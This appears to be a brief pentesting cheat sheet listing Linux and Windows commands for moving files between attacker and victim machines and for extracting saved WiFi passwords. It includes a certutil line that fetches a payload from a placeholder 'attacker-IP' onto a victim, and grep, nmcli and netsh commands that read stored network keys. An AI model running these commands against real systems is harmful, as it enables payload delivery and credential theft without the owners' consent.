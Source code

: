 # Useful Commands

## Linux

- Bash
  - transfer files between attacker/victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - dump WiFi network passwords
    - `sudo grep -r '^psk=' /etc/NetworkManager/system-connections/`
      - of all remembered WiFi networks
    - `nmcli dev wifi show-password`
      - of currently connected WiFi network
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`

## Windows

- cmd
  - transfer files between attacker/victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
      - use anonymous login
  - dump WiFi network passwords
    - `netsh wlan show profiles name="$SSID" key=clear`
      - of all remembered WiFi networks
